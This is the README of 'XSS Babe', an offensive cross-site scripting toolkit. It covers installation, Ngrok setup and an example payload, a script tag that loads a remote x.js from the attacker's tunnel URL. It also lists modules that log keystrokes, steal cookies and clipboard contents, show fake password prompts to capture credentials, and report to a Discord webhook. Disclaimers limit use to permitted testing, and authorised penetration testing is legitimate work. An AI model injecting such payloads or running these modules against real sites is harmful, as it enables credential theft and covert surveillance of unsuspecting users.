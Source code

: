 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 

*this tool is functional but still a work in progress, should be done with the final touches in the next few days xx0xx

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd XSS-BABE
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 unzip -y
sudo apt install python3-flask python3-pyngrok -y
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `session_reports/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module                   | Description                                              | Status        |
|--------------------------|----------------------------------------------------------|--------------|
| `keylogger`              | Records keystrokes in real time                          |  Live        |
| `fake_login`             | Displays fake login form for credential capture          |  Coming Soon |
| `clipboard`              | Dumps contents of the victim’s clipboard                 |  Live        |
| `auto_cookie_steal`      | Extracts document cookies silently                       |  Live        |
| `browser_history`        | Reads browser history if accessible                      |  Coming Soon |
| `fake_download`          | Prompts a fake download and logs the click               |  Live        |
| `fingerprint`            | Collects user-agent, screen size, timezone               |  Coming Soon |
| `screenshot`             | Captures a visual screenshot using HTML2Canvas           |  Coming Soon |
| `recon`                  | Loads iframe ports and resources for open recon          |  Coming Soon |
| `cross_tab_spy`          | Detects and tracks multiple open tabs                    |  Coming Soon |
| `cross_tab_messaging_spy`| Reports other open tabs and focus changes                |  Live        |
| `discord_logger`         | Sends a page load alert to a Discord webhook             |  Live        |
| `password_bait`          | Displays a fake password prompt to capture credentials   |  Live        |

---

## File Structure

- `xss_babe/`
  - `xss_babe_cli.py` – Main interactive CLI
  - `server.py` – Flask server for payload delivery
  - `requirements.txt` – Python dependencies
  - `static/`
    - `x.js` – XSS loader script
    - `modules/`
      - `auto_cookie_steal.js`
      - `clipboard.js`
      - `cross_tab_messaging_spy.js`
      - `discord_logger.js`
      - `fake_download.js`
      - `history_stealer.js`
      - `keylogger.js`
      - `password_bait.js`
      - `fake_login.js` *(coming soon)*
      - `browser_history.js` *(coming soon)*
      - `fingerprint.js` *(coming soon)*
      - `screenshot.js` *(coming soon)*
      - `recon.js` *(coming soon)*
      - `cross_tab_spy.js` *(coming soon)*
  - `utils/`
    - `save_to_txt.py` – Helper to save session info
  - `session_reports/`
    - `[timestamp].txt` – Auto-generated session logs

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
session_reports/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
